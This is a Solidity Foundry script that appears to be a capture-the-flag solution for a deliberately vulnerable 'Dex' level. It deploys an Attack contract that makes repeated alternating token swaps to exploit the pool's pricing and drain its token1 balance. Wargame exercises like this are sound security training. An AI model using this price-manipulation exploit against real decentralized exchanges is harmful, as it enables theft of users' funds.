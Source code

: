 **Level22Solution.s.sol**

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "forge-std/Script.sol";
import "forge-std/console.sol";
import {Dex} from "../src/Level22.sol";
import "openzeppelin-contracts/contracts/token/ERC20/IERC20.sol";

contract Level22Sol is Script {
    Dex public instance = Dex(0x7f2041D22Bf8D693507A9347785C182BBB73285d);

    function run() external {
        vm.startBroadcast(vm.envUint("PRIVATE_KEY"));

        address token1 = instance.token1();
        address token2 = instance.token2();

        console.log(token1);

        Attack attack = new Attack();

        instance.approve(address(attack), 10);
        address myAddress = address(vm.envAddress("MY_ADDRESS"));
        attack.exploit(myAddress);

        console.log(
            "DEX balance in TOKEN1 is ",
            instance.balanceOf(token1, address(instance))
        );
        vm.stopBroadcast();
    }
}

contract Attack {
    Dex public dex = Dex(0x7f2041D22Bf8D693507A9347785C182BBB73285d);
    address token1 = dex.token1();
    address token2 = dex.token2();

    function exploit(address myAddress) public {
        IERC20(token1).transferFrom(myAddress, address(this), 10);
        IERC20(token2).transferFrom(myAddress, address(this), 10);

        dex.approve(address(dex), type(uint64).max);

        dex.swap(token1, token2, 10);
        dex.swap(token2, token1, 20);
        dex.swap(token1, token2, 24);
        dex.swap(token2, token1, 30);
        dex.swap(token1, token2, 41);

        dex.swap(token2, token1, 45);
    }
}

```
